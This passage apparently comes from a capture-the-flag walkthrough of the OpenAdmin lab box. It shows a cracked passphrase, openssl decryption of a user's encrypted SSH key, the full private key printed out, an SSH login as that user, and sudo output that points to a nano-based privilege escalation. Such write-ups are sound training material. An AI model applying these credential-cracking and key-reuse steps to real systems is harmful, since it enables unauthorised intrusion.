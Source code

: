 The password is `bloodninjas`

Now we can decrypt the key using openssl.

```sh
❯ openssl rsa -in joanna.id_rsa.encrypted -out joanna.id_rsa
Command executed at: 2025-03-22 15:30:37
Enter pass phrase for joanna.id_rsa.encrypted:
writing RSA key
❯ cat joanna.id_rsa
Command executed at: 2025-03-22 15:30:53
-----BEGIN PRIVATE KEY-----
MIIEwAIBADANBgkqhkiG9w0BAQEFAASCBKowggSmAgEAAoIBAQDQq/QYeYL+V+jJ
+LryA/icUJL9zyT72WMo5Bq0THQk2VQ/JaY6KiLJ929clsttUEM4RVY0yBldrvQ3
EEpOrlls2PImRMOwMz7cPnrL11t53OugzwEtFPqO/8yWcqquGO2qp8Jw5xvthIiL
Ug0t2z5CzbLLAGj1EVMCjhgKMR6r6ZOJRK/8M9n1YrOtuFoj+BRMyTNvHur3d1Eu
mnVmfZk2AJeLqrXfxJAJ9hjD+266hlqbYd9GJDP5AfoXhW+fp1Q4sD+yHdr7XOrS
24C2lwrPCrZoTaCPnDj01WuuTY/xCPfJuJcHjsVoZwrm7nSfkTJlS1y7xBqrVZwR
xpCGhnQ/AgMBAAECggEBAIJm4sykqtq9HwmQeWsiViuBIsqft3H3gMMeAR4pJO+e
LMqlgYKZsFHcYehPh+LRJKC2m8+yOD/WRGFgub7/r3yY+oI1uMCU1bSXCu/1rgGy
sEE2+3orwQS6ECT4lXbktylNWvJpSoecqiO+a+P7PaZLm27G29BCOki/eYBs/8jX
tYWZgbDFszTxvRllidUkyxWkEmAPz2QLGZfdsu2RnoEMOqBWDfPIFfZfMg3bqVz4
dgOf9OLtrm3KjQASALGahJbzzD9w2gP1NeNwKAhTF8kdIhlTzOoTX9ZeQiuAuqrA
lftZpYI5GdHkx3IWdfWmq3hrOA9l9rZkUvxvaXD17QkCgYEA/x1HjsZ6kP1gymCq
Jlvss2HtBBpykQdLQsKJ/2pUKBTQcl9GF82k6fJjq0f4dqMxXX+6+8od3ecV1EvD
bftjCtKNC1Py1ulU6IhAcKAW2IfeZ8TzsqfxyVZU7PWYz7ozF6beJ1e0yuAdeNbm
H3ZVm5OfkptgcX+loTgMxaY1N10CgYEA0WVmenAQ4iPDXa1GlsbYvV6njakB4+Me
ECqSvy+e+Xxh0nKA60sy+LSfFTLEVcel+t0LYQG7NMAgBiaTPVuQE3VMqIsEQiET
UUpvyS63JwTj9zyu4cXihLX5EzqHXoY2Wfn2jZdlCgJhOkJNQNbRm1AR1iYtZ0xC
igaVwfKkbEsCgYEAvlgYRfztAjUq/JS3HzvDFexgrYkWJgNtMfh4givRcr5k8JEJ
eUUkYLFLkEZ4qfwFHx/oYWlic2ixrt6AiBTixvZl6ifOrm8VvRG8Esw/f3uQg5g9
w/TuwCw73Tk5tPPWnzUP2Abmi+A/3SNqO9tM8HFqxDZN9SEqcWmije3/ErkCgYEA
y4odSvaT8r2AshY0f2taUvknNXQK+lFSb7RyYJURmsFk9QOIfS7jpQ0tdZWbcyZW
GLu0y9668lOuzUvB4+qU6dUjZtF6mi08cdBBSPW34p3GWhUKiTupLAcWzbIe06ry
OhPXrVp0RH57s/2uylAF/0qdi+QgTkC6jSBJgfUyDnECgYEAgvG8clOKsWLir+Ej
3k8CXV+91g0oKMI/uYfh1xMHqMaMfgV5BAJ091MIa72CGzUkBhk6sJpO1hRnGMr8
UuQYWYFzg7XUfE67M0ffl9vmBY2tRIn8h2ETv6f31xs9S839F4r5+FmurYWamlEg
CZmmIP7LNkp/g/2IgGX6YHm5hMI=
-----END PRIVATE KEY-----
```


Now we can login as joanna.
```sh
❯ ssh -i joanna.id_rsa joanna@10.129.100.13
Command executed at: 2025-03-22 15:31:53
<SNIP>
joanna@openadmin:~$ whoami
joanna
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
